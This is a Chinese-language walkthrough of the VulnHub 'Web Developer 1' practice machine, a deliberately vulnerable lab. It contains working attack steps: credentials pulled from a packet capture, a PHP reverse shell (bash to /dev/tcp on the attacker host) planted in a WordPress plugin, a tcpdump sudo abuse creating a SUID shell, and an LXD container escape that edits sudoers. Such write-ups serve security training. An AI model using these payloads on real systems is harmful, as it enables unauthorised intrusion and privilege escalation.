










# Web Developer 1

下载地址：https://download.vulnhub.com/webdeveloper/WebDeveloper.ova

## 实战演练

找到靶场IP地址：`192.168.32.155`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.155                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-12 03:28 EDT
Nmap scan report for 192.168.32.155
Host is up (0.0015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:7E:24:50 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.90 seconds
                                                              
```

浏览器访问80端口



扫描web目录，找到系统是wordpress和`ipdata`目录





分析数据包找到一个账号密码：`webdeveloper/Te5eQg&4sBS!Yr$)wf%(DcAd`

```
log=webdeveloper&pwd=Te5eQg%264sBS%21Yr%24%29wf%25%28DcAd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.176%2Fwordpress%2Fwp-admin%2F&testcookie=
```

> log=webdeveloper&pwd=Te5eQg&4sBS!Yr$)wf%(DcAd&wp-submit=Log+In&redirect_to=http://192.168.1.176/wordpress/wp-admin/&testcookie=



登录WP后台系统



修改WP插件加入反弹shell代码，`Plugins -> Editor -> akismet.php`

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.32.130/7777 0>&1'"); ?>
```

访问http://192.168.32.155/wp-content/plugins/akismet/akismet.php



找到wp-config.php，发现`webdeveloper`密码为`MasterOfTheUniverse`

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```

SSH登录成功



查看sudo列表

```
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

```

### tcpdump提权

```
webdeveloper@webdeveloper:~$ cat /tmp/bash 
cp /bin/bash /tmp/sh-1
chmod u+s /tmp/sh-1
webdeveloper@webdeveloper:~$ chmod +x /tmp/bash 

webdeveloper@webdeveloper:~$ sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/bash -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
16 packets received by filter
0 packets dropped by kernel

webdeveloper@webdeveloper:/tmp$ ./sh-1  -p
sh-1-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
sh-1-4.4# cd /root/
sh-1-4.4# ls
flag.txt
sh-1-4.4# cat flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290

```


### lxd提权

使用LinEnum.sh发现一条警告



lxd初始化

```
webdeveloper@webdeveloper:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, "auto" or "none") [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:
```

初始化镜像

```
webdeveloper@webdeveloper:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
```

挂载磁盘

```
webdeveloper@webdeveloper:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to test
```

启动镜像并进入镜像访问任意文件

```
webdeveloper@webdeveloper:~$ lxc start test
webdeveloper@webdeveloper:~$ lxc exec test bash
root@test:~# ls
root@test:~# id
uid=0(root) gid=0(root) groups=0(root)
```

在这里，我们创建了一个 lxc 容器，为其分配了安全权限，并将整个磁盘挂载到`/mnt/root`.

```
root@test:/mnt/root# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
```

修改sudoers文件提权

```
root@test:/mnt/root# echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers
```


